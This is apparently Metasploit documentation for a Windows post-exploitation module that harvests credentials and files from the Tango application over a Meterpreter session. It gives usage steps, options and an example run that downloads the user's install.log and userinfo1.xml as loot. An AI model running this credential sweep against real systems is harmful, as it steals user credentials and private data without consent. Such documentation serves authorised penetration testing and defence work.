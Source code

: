 ## Module Description

This post-exploitation module gathers artifacts found on tango related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/tango
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf6 post(windows/gather/credentials/tango) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Tango's parent folder found
[*] Tango's parent folder found
[*] Tango's Install.log file found
[*] Downloading C:\Users\IEUser\AppData\Local\tango\install.log
[*] Tango Install.log downloaded
[+] File saved to:  /root/.msf4/loot/20210521114758_default_192.168.56.106_tangoinstall.log_259187.log

[+] File with data saved:  /root/.msf4/loot/20210521114759_default_192.168.56.106_EXTRACTIONinstal_843961.log
[*] Tango's parent folder found
[*] Tango's Userinfo1.xml file found
[*] Downloading C:\Users\IEUser\AppData\Local\tango\userinfo1.xml
[*] Tango Userinfo1.xml downloaded
[+] File saved to:  /root/.msf4/loot/20210521114759_default_192.168.56.106_tangouserinfo1.x_614135.xml

[+] File with data saved:  /root/.msf4/loot/20210521114759_default_192.168.56.106_EXTRACTIONSuseri_076763.xml
[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```